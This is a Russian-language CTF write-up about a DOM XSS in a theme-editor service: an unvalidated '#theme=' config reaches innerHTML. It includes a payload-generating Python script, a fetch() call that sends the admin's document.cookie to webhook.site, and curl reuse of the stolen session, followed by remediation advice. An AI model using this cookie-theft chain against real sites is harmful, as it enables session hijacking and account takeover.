



# Редактор тем 🌐

## Описание задачи

Задача: **Редактор тем**

Сложность: 

Описание с платформы:

> Оказывается администраторы даже такого безобидного сервиса, как редактор тем, тоже могут хранить секреты. Поделитесь своим творчеством с ними, может быть, это вам поможет

Адрес задания:

```text
tasks.duckerz.ru:30075
```

Автор задачи:

```text
M0shp1t
```

Скрин с названием и описанием:



---

## Первый взгляд 👀

На старте пока есть только карточка задачи с названием, описанием и адресом сервиса.

По описанию задача выглядит как сервис, в котором пользователь может создавать или менять темы оформления и затем как-то делиться ими с администратором.

Пока это только направление для проверки. В таких задачах особенно интересно смотреть:

- можно ли загружать или редактировать HTML/CSS/JS;
- как именно устроено “поделиться своим творчеством”;
- просматривает ли администратор пользовательскую тему;
- можно ли внедрить код, который выполнится у администратора;
- есть ли предпросмотр темы, публичная ссылка или экспорт;
- есть ли параметры, отвечающие за имя темы, содержимое или владельца.

---

## Что проверять дальше

Первым делом нужно открыть сервис и зафиксировать:

- какие страницы доступны без входа;
- нужна ли регистрация;
- какие поля доступны при создании темы;
- можно ли вводить произвольный CSS, HTML или JavaScript;
- как выглядит механизм отправки темы администратору;
- какие запросы уходят в Burp при сохранении и шаринге темы.

По описанию уже напрашивается проверка на клиентские атаки против администратора, но пока это только рабочая гипотеза, а не подтвержденная уязвимость.

---

## Что видно в Burp Suite 🧪

После регистрации и первых действий на сайте в Burp появился важный маршрут:

```text
POST /api/support
```

Скрин из Burp:



По скрину видно несколько уже подтвержденных фактов:

- у сайта есть страницы:

```text
/register
/login
/profile
/logout
```

- после авторизации используется API-метод:

```text
POST /api/support
```

- запрос отправляется в формате JSON;
- в теле запроса есть поле:

```json
{
  "url": "..."
}
```

То есть механизм поддержки или отправки админу работает через передачу ссылки.

Ответ сервера тоже приходит в JSON и сообщает, что ссылка была принята и передана администратору на проверку.

---

## Почему это выглядело как направление на XSS

Сейчас это еще не доказанная уязвимость, а рабочая гипотеза по наблюдаемой логике.

Подозрительная цепочка выглядит так:

```text
пользователь отправляет url
-> сервер принимает ссылку
-> администратор проверяет присланный материал
```

Если администратор действительно открывает пользовательскую ссылку в браузере, то это типичный сценарий для:

- reflected XSS;
- stored XSS через заранее подготовленную страницу;
- атак с приманкой на админский просмотр.

То есть на этом этапе направление атаки после Burp было таким:

```text
попробовать добиться выполнения JavaScript у администратора через ссылку, которая отправляется в /api/support
```

Важно: само поле `url` здесь не являлось источником XSS. Оно оказалось только каналом доставки ссылки администратору. Сама XSS позже подтвердилась в логике загрузки темы из `#theme=` внутри `theme-editor.js`.

---

## Что это за сервис

После анализа HTML главной страницы был найден подключаемый файл:

```html
<script src="/static/js/theme-editor.js"></script>
```

Это важная находка, потому что основная логика редактора тем находится именно в этом JavaScript-файле.

По коду видно, что сервис позволяет:

- настраивать внешний вид темы через набор параметров;
- применять тему к блоку предпросмотра;
- сохранять тему на сервере;
- загружать тему по ID;
- делиться темой через ссылку с параметром в hash;
- отправлять такую ссылку администратору через поддержку.

То есть по смыслу это полноценный theme-sharing сервис: пользователь собирает тему, получает ссылку и может отправить ее на проверку.

---

## Общая логика theme-editor.js

Файл начинается с массива:

```javascript
const settings = [
    'bg', 'textColor', 'headerColor', 'headerSize', 'borderColor', 'borderWidth',
    'fontFamily', 'padding', 'margin', 'shadowColor', 'shadowOffset', 'borderRadius',
    'blockBg', 'headerFontWeight', 'textAlign', 'lineHeight', 'blockOpacity',
    'headerTextTransform', 'blockBorderStyle', 'shadowBlur'
];
```

Это список всех параметров темы, которыми управляет интерфейс.

По нему уже понятно, что сервис дает пользователю довольно глубокий контроль над оформлением:

- цвета;
- размеры;
- границы;
- шрифты;
- прозрачность;
- выравнивание;
- тени;
- радиус рамки.

---

## validateConfig(config)

Функция:

```javascript
validateConfig(config)
```

пытается валидировать настройки темы.

Внутри заданы:

- `defaultConfig` с дефолтными значениями;
- регулярки для цвета, размеров и прозрачности;
- списки допустимых шрифтов, выравниваний, жирности и стилей рамки.

Примеры проверок:

```javascript
const colorRegex = /^#[0-9a-fA-F]{6}$/;
const sizeRegex = /^\d+(\.\d+)?(px|em|rem)$/;
```

Идея разработчика понятна: не дать пользователю подставить произвольный опасный текст вместо CSS-значений.

На первый взгляд это выглядит как защита. Но важно не только наличие валидации, а где именно она применяется.

---

## applyConfig(config)

Функция:

```javascript
applyConfig(config)
```

применяет тему к странице.

Сначала она меняет стили `document.body` и `title`, а затем делает самое важное:

```javascript
block.innerHTML = `
    <div style="
        border: ${config.borderWidth} ${config.blockBorderStyle} ${config.borderColor};
        padding: ${config.padding};
        margin: ${config.margin};
        box-shadow: ${config.shadowOffset} ${config.shadowOffset} ${config.shadowBlur} ${config.shadowColor};
        border-radius: ${config.borderRadius};
        background: ${config.blockBg};
        opacity: ${config.blockOpacity};
        line-height: ${config.lineHeight};
    ">
        Это пример содержимого блока. Настройте тему слева и поделитесь ею!
    </div>
`;
```

Здесь и находится ключевая уязвимость.

Почему это опасно:

- используется:

```javascript
innerHTML
```

- значения из `config` вставляются внутрь HTML-шаблона напрямую;
- часть значений попадает внутрь атрибута:

```html
style="..."
```

Если злоумышленник сможет подставить значение вроде:

```text
'">
```

то он сможет вырваться из `style`-атрибута и вставить новый HTML-элемент с JavaScript.

То есть `applyConfig()` сам по себе опасен, если в него попадет непроверенная конфигурация.

---

## Где именно ломается защита

Наивная защита у разработчика есть, но она применяется не везде.

### Безопасные места

Перед шарингом темы:

```javascript
shareTheme()
```

делает:

```javascript
if (!validateConfig(config)) {
    alert(...)
    return;
}
```

Перед сохранением темы:

```javascript
saveTheme()
```

тоже вызывает:

```javascript
validateConfig(config)
```

При загрузке темы по ID:

```javascript
loadThemeById(themeId)
```

снова проверяет:

```javascript
if (!theme.config || !validateConfig(theme.config)) {
    throw new Error(...)
}
```

То есть в обычных путях разработчик пытался фильтровать данные.

### Уязвимое место

Проблема находится в:

```javascript
window.onload = () => {
    const hash = location.hash;
    if (hash.startsWith('#theme=')) {
        try {
            const json = atob(hash.substring(7));
            const config = JSON.parse(json);
            settings.forEach(id => {
                if (config[id] && document.getElementById(id)) {
                    document.getElementById(id).value = config[id];
                }
            });
            applyConfig(config);
        } catch (e) {
```

Здесь происходит:

```text
location.hash
-> atob(...)
-> JSON.parse(...)
-> applyConfig(config)
```

и при этом:

```text
validateConfig(config)
```

вообще не вызывается.

Это и есть основная логическая ошибка.

Разработчик защитил:

- ручной ввод;
- сохранение;
- загрузку с сервера;

но забыл защитить:

```text
загрузку темы из URL hash
```

В результате злоумышленник может передать вредоносную конфигурацию прямо в ссылке.

---

## Суть уязвимости

Итоговая цепочка выглядит так:

```text
пользователь формирует ссылку с #theme=<base64-json>
-> страница открывает ссылку
-> window.onload декодирует JSON
-> applyConfig() вставляет поля в innerHTML
-> вредоносный HTML/JS выполняется
```

Это клиентская XSS-уязвимость.

Причем она особенно удобна для эксплуатации против администратора, потому что сервис сам содержит механизм отправки ссылки в поддержку:

```text
POST /api/support
```

То есть платформа фактически дает канал доставки XSS к администратору.

---

## Генерация payload

Для эксплуатации был подготовлен скрипт:

```python
import json, base64

payload = {"borderWidth": '">'}

encoded = base64.b64encode(json.dumps(payload).encode()).decode()
print("http://tasks.duckerz.ru:30075/#theme=" + encoded)
```

Идея payload:

- подменяется поле:

```text
borderWidth
```

- значение начинается с:

```text
'">
```

чтобы выйти из атрибута `style`;

- затем вставляется тег:

```html

```

- обработчик `onerror` вызывает:

```javascript
fetch('https://webhook.site/... ?c=' + encodeURIComponent(document.cookie))
```

То есть при открытии страницы браузер администратора отправит его cookie на внешний webhook.

Почему выбран именно `borderWidth`:

- это значение попадает в начало CSS-выражения внутри `style`;
- его удобно использовать для разрыва атрибута и вставки нового HTML.

---

## Отправка администратору

После генерации ссылки она была отправлена через:

```text
POST /api/support
```

в поле:

```json
{
  "url": "..."
}
```

Идея атаки такая:

```text
создать вредоносную ссылку на тему
-> отправить ссылку в поддержку
-> дождаться, пока администратор откроет ее
-> получить его cookie через webhook
```

Это уже не просто предположение, а рабочая эксплуатационная цепочка.

---

## Подтверждение через webhook

После открытия ссылки был получен запрос на `webhook.site`.

Скрин:



По нему видно:

- пришел `GET`-запрос на webhook;
- в query string передан параметр:

```text
c=session=...
```

- `User-Agent` похож на headless-браузер:

```text
HeadlessChrome
```

- в referer видно:

```text
http://tasks.duckerz.ru:30075/
```

Это и есть подтверждение, что payload выполнился в браузере, который открыл ссылку от имени администратора или проверяющего бота.

То есть XSS реально сработал, а cookie были успешно украдены.

---

## Использование украденной cookie

После получения значения:

```text
session=...
```

дальше оставалось просто подставить эту cookie в свои запросы любым удобным способом:

- через Burp Suite;
- через DevTools в браузере;
- через `curl`.

Пример с `curl`:

```bash
curl -s \
  -H "Cookie: session=..." \
  http://tasks.duckerz.ru:30075/profile
```

При обращении к:

```text
/profile
```

с украденной админской cookie открывается профиль администратора, где и находится флаг.

То есть финальный этап решения выглядит так:

```text
получить session админа
-> подставить session в свои запросы
-> открыть /profile
-> получить флаг
```

Для единообразия writeup флаг здесь явно не публикуется.

---

## Почему сервис уязвим

Здесь сошлись сразу несколько неудачных решений:

1. Конфигурация темы берется из URL hash  
   `#theme=` декодируется и парсится без полной проверки.

2. Непроверенные значения попадают в `innerHTML`  
   Это открывает путь к HTML-инъекции и XSS.

3. Поддержка принимает пользовательскую ссылку  
   То есть сервис сам предоставляет доставку payload администратору.

4. Cookie доступны из JavaScript  
   Раз удалось прочитать `document.cookie`, значит cookie не были защищены флагом `HttpOnly`.

Именно вместе эти факторы превращают “безобидный редактор тем” в рабочую цепочку кражи админской сессии.

---

## Как этого не допустить

Чтобы закрыть такую уязвимость, разработчику нужно:

- не использовать `innerHTML` для вставки данных из пользовательской конфигурации;
- строить DOM через безопасные API;
- валидировать конфиг темы и при загрузке из `#theme=...`, а не только при сохранении;
- не позволять строкам из конфига попадать в HTML-атрибуты без экранирования;
- защищать cookie флагом `HttpOnly`;
- ограничивать или дополнительно проверять ссылки, которые отправляются в поддержку;
- изолировать просмотр пользовательского контента администратором.

Главный технический фикс здесь:

```text
не передавать пользовательские значения в innerHTML
```

---

## Итог

Цепочка решения:

```text
анализ HTML главной страницы
-> нахождение /static/js/theme-editor.js
-> разбор логики шаринга темы через #theme=<base64-json>
-> обнаружение, что window.onload не вызывает validateConfig()
-> обнаружение опасной вставки в innerHTML через applyConfig()
-> генерация payload в поле borderWidth
-> отправка ссылки через POST /api/support
-> администратор открывает ссылку
-> JavaScript выполняется
-> cookie уходят на webhook
-> получаем админскую сессию
```

Главная уязвимость задачи: XSS через тему, загружаемую из URL hash, с доставкой payload через форму поддержки и последующим захватом админской сессии.

---

## Текущий статус

Задача решена.

Зафиксировано:

- название задачи;
- сложность `Medium`;
- описание с платформы;
- адрес сервиса;
- автор задачи;
- стартовые направления для проверки;
- подтвержден маршрут `POST /api/support`;
- подтверждено, что в поддержку отправляется JSON с полем `url`;
- найден `theme-editor.js` на главной странице;
- разобрана логика сервиса и методов работы с темами;
- найдена XSS-уязвимость через `#theme=` и `innerHTML`;
- сгенерирован payload для кражи cookie;
- получен запрос на webhook с cookie администратора;
- украденная cookie использована для входа в профиль администратора и получения флага.

---

Автор: **masquadd :)** ✍️
